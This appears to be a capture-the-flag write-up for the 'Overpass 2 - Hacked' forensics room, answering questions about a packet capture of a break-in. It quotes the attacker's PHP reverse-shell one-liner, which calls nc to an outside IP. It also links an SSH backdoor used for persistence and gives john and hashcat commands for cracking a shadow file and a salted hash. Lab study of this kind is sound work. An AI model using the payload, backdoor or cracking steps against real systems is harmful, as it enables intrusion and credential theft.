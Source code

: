 # Overpass 2 - Hacked

If you are experiencing trouble, google `wireshark follow tcp stream`

- What was the URL of the page they used to upload a reverse shell?

	- Open Wireshark, and then open the pcap file.
	- `/development/`

- What payload did the attacker use to gain access?

	- You have to search a big POST request.
	- `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`

- What password did the attacker use to privesc?

	- Packet no. 76
	- `whe***************tant`

- How did the attacker establish persistence?

	- Packet no. 120
	- `https://github.com/NinjaJc01/ssh-backdoor`

- Using the fasttrack wordlist, how many of the system passwords were crackable?

	- Save the content of response 114 on a file called `shadow`
	- `john --wordlist=fasttrack.txt shadow`
	- `*`

- What's the default hash for the backdoor?

	- [ssh-backdoor](https://github.com/NinjaJc01/ssh-backdoor/blob/master/main.go)
	- `******** ... ********`

- What's the hardcoded salt for the backdoor?

	- Same file as above
	- `********************************`

- What was the hash that the attacker used? - go back to the PCAP for this!

	- `*********** ... **************`

- Crack the hash using rockyou and a cracking tool of your choice. What's the password?

	- `hashcat -m 1710 -a 0 HASH_HERE:SALT_HERE /usr/share/wordlists/rockyou.txt`
	- `**********`